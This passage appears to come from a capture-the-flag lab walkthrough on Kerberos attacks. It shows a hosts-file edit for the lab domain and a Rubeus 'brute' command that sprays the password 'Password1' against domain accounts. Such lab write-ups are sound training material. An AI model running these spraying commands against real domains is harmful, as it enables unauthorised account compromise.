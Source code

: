 With this output you will be able to answer the task questions however please continue with the task instructions to learn password spraying via rubeus.

Before attempting the password spraying we will need to add the machine to the windows hosts file.
``` cmd
echo 10.10.250.63 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```

Once added we can begin the attack.
The following command calls the brute function to start a brute force attack, and passes the password variable along with the noticket option to spray the given password to all available tickets to see if their is a match. 
```cmd
Rubeus.exe brute /password:Password1 /noticket
```

You should see the output bellow.
![](/assets/images/thm/kerberos/rubeus3.png)
